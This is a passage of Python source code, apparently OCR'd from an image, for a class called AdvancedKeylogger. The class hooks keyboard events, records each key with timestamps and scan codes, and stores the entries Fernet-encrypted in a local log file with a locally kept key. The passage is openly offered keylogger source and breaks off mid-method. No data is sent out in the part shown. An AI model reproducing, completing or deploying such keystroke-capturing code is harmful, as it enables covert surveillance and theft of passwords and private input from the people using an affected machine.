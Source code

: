 ```python
import os
import keyboard
import threading
import json
import base64
from datetime import datetime
from cryptography.fernet import Fernet
import atexit

class AdvancedKeylogger:
    _instance = None
    
    def __new__(cls, *args, **kwargs):
        if cls._instance is None:
            cls._instance = super().__new__(cls)
            cls._instance.initialized = False
        return cls._instance
    
    def __init__(self):
        if self.initialized:
            return
            
        self.initialized = True
        self.is_running = False
        self.encryption_enabled = True  # Default to enabled
        self.log_file = "keystrokes.log"
        self.config_file = "keylogger_config.json"
        self.encryption_key = self._load_or_create_key()
        self.cipher = Fernet(self.encryption_key) if self.encryption_enabled else None
        self.hook_ids = []
        self.log_lock = threading.Lock()
        atexit.register(self.stop)
        
    def _load_or_create_key(self):
        """Load or generate encryption key"""
        if os.path.exists(self.config_file):
            try:
                with open(self.config_file, "r") as f:
                    config = json.load(f)
                    if "encryption_key" in config:
                        return base64.urlsafe_b64decode(config["encryption_key"].encode())
            except Exception:
                pass
        
        new_key = Fernet.generate_key()
        self._save_config({"encryption_key": base64.urlsafe_b64encode(new_key).decode()})
        return new_key
    
    def _save_config(self, config):
        """Save configuration securely"""
        with open(self.config_file, "w") as f:
            json.dump(config, f)
        os.chmod(self.config_file, 0o600)
    
    def _process_event(self, event, event_type):
        """Process and log keyboard events"""
        timestamp = datetime.now().strftime("%Y-%m-%d %H:%M:%S.%f")
        log_entry = {
            "timestamp": timestamp,
            "event_type": event_type,
            "key": event.name,
            "scan_code": event.scan_code,
            "is_keypad": event.is_keypad
```